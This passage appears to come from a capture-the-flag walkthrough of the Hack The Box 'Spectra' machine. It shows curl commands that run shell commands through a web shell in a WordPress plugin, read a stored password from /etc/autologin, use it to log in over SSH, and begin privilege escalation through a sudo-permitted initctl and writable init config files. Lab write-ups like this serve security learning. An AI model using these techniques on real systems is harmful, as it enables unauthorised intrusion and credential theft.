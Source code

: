 // It looks like a script that store a key(password), also there is mantioned directory '/etc/autologin', lets check it

    $ curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=ls+/etc/autologin
    passwd

// Indeed there passwd file, lets open him

    $ curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=cat+/etc/autologin/passwd
    SummerHereWeCome!!

// We have a passowrd ! , we can try now SSH to the machine

    $ ssh katie@10.10.10.229
    Password: 
    katie@spectra ~ $ 

// It worked with user katie !

// And we got user flag !

    katie@spectra ~ $ cat user.txt 
    e89d2............................


### ------Privilleges Escalation-----


// Lets check which sudo permissions we have

    katie@spectra /etc/init $ sudo -l
    User katie may run the following commands on spectra:
        (ALL) SETENV: NOPASSWD: /sbin/initctl

// We can run [initctl](https://linux.die.net/man/8/initctl) as root 

    ' initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon. '

// So i navigated to /etc/init to check for config file we can manipulate

    katie@spectra /etc/init $ ls -al
    total 768
    ....[ SNIP ]....
    -rw-r--r--  1 root root        1694 Jan 15  2021 system-services.conf
    -rw-r--r--  1 root root         671 Dec 22  2020 tcsd.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test9.conf
    -rw-r--r--  1 root root        2645 Dec 22  2020 tlsdated.conf
    ....[ SNIP ]....
